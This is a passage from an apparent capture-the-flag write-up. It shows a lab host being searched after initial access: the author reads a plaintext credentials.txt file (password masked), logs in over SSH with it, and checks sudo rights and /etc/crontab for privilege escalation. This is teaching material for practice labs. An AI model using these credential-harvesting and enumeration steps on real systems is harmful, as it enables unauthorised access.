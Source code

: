 ```
```

Here, we can see that the user flag is in alison's directory but as we don't have the access to read his files we can print the content of `user.txt`. Moving on the dark's directory, we can find a file named `credentials.txt`.

```
ls -la /home/dark
total 28
drwxr-xr-x 2 dark dark 4096 Jul 28 20:33 .
drwxr-xr-x 4 root root 4096 Jul 28 20:13 ..
-rw------- 1 dark dark   26 Jul 28 20:33 .bash_history
-rw-r--r-- 1 dark dark  220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 dark dark 3771 Aug 31  2015 .bashrc
-rwxrwxrwx 1 dark dark   24 Jul 28 20:15 credentials.txt
-rw-r--r-- 1 dark dark  655 May 16  2017 .profile
cat /home/dark/credentials.txt
dark:******************
```

In that file, we can find the password for user dark. So, we can try to access the machine via SSH and use dark's credentials.

```
tester@kali:~/Downloads/poster$ ssh dark@10.10.179.1
The authenticity of host '10.10.179.1 (10.10.179.1)' can't be established.
ECDSA key fingerprint is SHA256:9sVne2iRYnXtCm1g5M0jwlzBMg0GmByloIG6c7gDlgA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.179.1' (ECDSA) to the list of known hosts.
dark@10.10.179.1's password: 
Permission denied, please try again.
dark@10.10.179.1's password: 
Last login: Tue Jul 28 20:27:25 2020 from 192.168.85.142
$ whoami
dark
$ pwd
/home/dark
```

Again, now we can try to access the `user.txt` in alison's directory:

```
$ cat /home/alison/user.txt
cat: /home/alison/user.txt: Permission denied
```

We can check for the commands that we can run as root using the command `sudo -l` and also check if there is some cronjob that we can use through the command `cat /etc/crontab`.

```
$ sudo -l
[sudo] password for dark: 
Sorry, user dark may not run sudo on ubuntu.
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
```